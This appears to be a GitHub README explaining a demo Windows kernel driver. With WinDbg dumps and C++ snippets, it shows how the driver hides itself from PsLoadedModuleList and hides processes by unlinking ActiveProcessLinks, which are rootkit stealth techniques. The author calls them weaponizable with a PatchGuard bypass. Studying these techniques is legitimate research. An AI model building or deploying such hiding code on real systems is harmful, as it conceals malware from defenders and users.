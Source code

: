# Windows DKOM Demo

This is an implementation of a simple driver which modifies kernel data structures to remove itself from the `PsLoadedModuleList` structure. It also has functionality to hide processes by their ID. Disclaimer: PG protects against this. Weaponizanble by chaining with a PG bypass.

---

`PsLoadedModuleList`  is a global kernel object of type `_KLDR_DATA_TABLE_ENTRY`. It is the list head of a circular linked-list containing the loaded modules on the system. Example:

```
2: kd> ?PsLoadedModuleList
Evaluate expression: -8773737086640 = fffff805`34848150
2: kd> dt poi(fffff805`34848150) _KLDR_DATA_TABLE_ENTRY
DKOM_Demo!_KLDR_DATA_TABLE_ENTRY
   +0x000 InLoadOrderLinks : _LIST_ENTRY [ 0xffffd78d`4ee49340 - 0xfffff805`34848150 ]
   +0x010 ExceptionTable   : 0xfffff805`34911000 Void
   +0x018 ExceptionTableSize : 0x5e38c
   +0x020 GpValue          : (null) 
   +0x028 NonPagedDebugInfo : (null) 
   +0x030 DllBase          : 0xfffff805`34400000 Void
   +0x038 EntryPoint       : 0xfffff805`34997010 Void
   +0x040 SizeOfImage      : 0xab7000
   +0x048 FullDllName      : _UNICODE_STRING "\SystemRoot\system32\ntoskrnl.exe"
   +0x058 BaseDllName      : _UNICODE_STRING "ntoskrnl.exe"
   +0x068 Flags            : 0x8804000
   +0x06c LoadCount        : 0x8f
   +0x06e __Unused5        : 0x10
   +0x070 SectionPointer   : (null) 
   +0x078 CheckSum         : 0x979256
   +0x080 LoadedImports    : (null) 
   +0x088 PatchInformation : 0x00000000`00000001 Void
```

We can see that at information about the entry is offset to the actual `LIST_ENTRY` structure, which holds the addresses of the next and previous `_KLDR_DATA_TABLE_ENTRY` structures. If you're not familiar, `LIST_ENTRY` looks like this:

```
2: kd> dt _List_entry
ntdll!_LIST_ENTRY
   +0x000 Flink            : Ptr64 _LIST_ENTRY
   +0x008 Blink            : Ptr64 _LIST_ENTRY
```

As it turns out, each driver has access to it's `KLDR_DATA_TABLE_ENTRY` structure by its `DriverObject->DriverSection` member at offset `0x28`. Just for completeness' sake, the `DRIVER_OBJECT` structure looks like this:

```
2: kd> dt PDRIVER_OBJECT
DKOM_Demo!PDRIVER_OBJECT
Ptr64    +0x000 Type             : Int2B
   +0x002 Size             : Int2B
   +0x008 DeviceObject     : Ptr64 _DEVICE_OBJECT
   +0x010 Flags            : Uint4B
   +0x018 DriverStart      : Ptr64 Void
   +0x020 DriverSize       : Uint4B
   +0x028 DriverSection    : Ptr64 Void    //KLDR_DATA_TABLE_ENTRY            
   +0x030 DriverExtension  : Ptr64 _DRIVER_EXTENSION
   +0x038 DriverName       : _UNICODE_STRING
   +0x048 HardwareDatabase : Ptr64 _UNICODE_STRING
   +0x050 FastIoDispatch   : Ptr64 _FAST_IO_DISPATCH
   +0x058 DriverInit       : Ptr64     long 
   +0x060 DriverStartIo    : Ptr64     void 
   +0x068 DriverUnload     : Ptr64     void 
   +0x070 MajorFunction    : [28] Ptr64     long 
```

As such, one can simply access and traverse `PsLoadedModuleList` using this member of `DRIVER_OBJECT`. Additionally, directly hiding a module from the list is as simple as relinking the `LIST_ENTRY` structures surrounding the driver's:

```c++
PLIST_ENTRY PrevModule = ThisModule->Blink;
PLIST_ENTRY NextModule = ThisModule->Flink;

// Replace PrevModule Flink with NextModule's address;
PrevModule->Flink = NextModule;
// Replace NextModule Blink with PrevModule's address
NextModule->Blink = PrevModule;

// point target process to itself
ThisModule->Flink = ThisModule;
ThisModule->Blink = ThisModule;
```

And since you have access to the driver `KLDR_DATA_TABLE_ENTRY`, you can check your work:

```c++
NTSTATUS FindKernelModule(_In_ PDRIVER_OBJECT DriverObject, _In_ PUNICODE_STRING DriverName) {
	// Logic can be similarly used for finding the PsLoadedModuleList head. ntoskrnl.exe is always the head
	PKLDR_DATA_TABLE_ENTRY pThisModule = (PKLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;
	PLIST_ENTRY KModEntry = { nullptr };
	PLIST_ENTRY FirstEntry = pThisModule->InLoadOrderLinks.Flink;

	// https://m0uk4.gitbook.io/notebooks/mouka/windowsinternal/find-kernel-module-address-todo
	// Loop over the circular linked-list
	for (PLIST_ENTRY pListEntry = pThisModule->InLoadOrderLinks.Flink;
		(pListEntry != &pThisModule->InLoadOrderLinks) &
		(pThisModule->InLoadOrderLinks.Flink != FirstEntry);
		pListEntry = pListEntry->Flink)
	{
		// Search for the driver you're trying to hide
		PKLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(
			pListEntry, KLDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

		if (RtlEqualUnicodeString(DriverName, &pEntry->BaseDllName, true)) {
			// oops, you found it. 
			KModEntry = pListEntry;
			return STATUS_SUCCESS;
		}
	}

    // module was unlinked successfully
	return STATUS_UNSUCCESSFUL;
}
```

This same type of unlinking behavior can be used to hide a process. In kernel mode, a process can be looked up by its ID using `PsLookupProcessByProcessId`:

```c++
// turn the PID into an EPROCESS pointer
PEPROCESS Process;
status = PsLookupProcessByProcessId((HANDLE)data->pid, &Process);
if (!NT_SUCCESS(status))
	break;
```

Where PEPROCESS represent a pointer to an EPROCESS structure like this:
```
2: kd> dt _EPROCESS
ntdll!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2e0 ProcessLock      : _EX_PUSH_LOCK
   +0x2e8 UniqueProcessId  : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY
   +0x300 RundownProtect   : _EX_RUNDOWN_REF
   +0x308 Flags2           : Uint4B
... (truncated
```

With a pointer to the target process's EPROCESS structure in hand, it can be scanned for the `ActiveProcessLinks` member. Once this member is found, hiding the process is the exact same for hiding a driver process:

```c++
// get the ActiveProcesLinks address
auto CurrentListEntry = (PLIST_ENTRY)((PUCHAR)Process + offset);

auto PrevListEntry = CurrentListEntry->Blink;
auto NextListEntry = CurrentListEntry->Flink;

// unlink the target process
PrevListEntry->Flink = NextListEntry;
NextListEntry->Blink = PrevListEntry;

// point target process to itself
CurrentListEntry->Flink = CurrentListEntry;
CurrentListEntry->Blink = CurrentListEntry;
```
On Windows 10 1901 build 18363, the `ActiveProcessLinks` member is located at offset `0x2f0`. This offset changes between builds.

The full source for an example driver can be found [here](https://github.com/joshfinley/DKOM_Demo).

Of course, none of this is anything new: 

## References
- [blackbone implementation to find PsLoadedModuleList](https://github.com/DarthTon/Blackbone/blob/master/src/BlackBoneDrv/Loader.c)
- [all sorts of ways of finding module addresses](https://m0uk4.gitbook.io/notebooks/mouka/windowsinternal/find-kernel-module-address-todo)
- [another implementation of the same driver hiding functionality](https://vxug.fakedoma.in/papers/Hiding%20loaded%20driver%20with%20DKOM%20.txt)
- [the reference implementation for the process hiding functionality](https://vxug.fakedoma.in/papers/Hide%20process%20with%20DKOM%20without%20hardcoded%20offsets.txt)
